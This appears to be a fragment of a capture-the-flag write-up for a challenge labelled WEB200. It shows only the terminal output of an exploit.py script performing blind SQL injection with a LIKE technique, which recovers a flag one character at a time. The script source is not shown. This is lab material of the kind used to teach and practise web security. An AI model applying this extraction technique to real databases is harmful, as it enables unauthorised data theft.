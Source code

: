 *WEB200

tmr@os:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using LIKE Technic 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
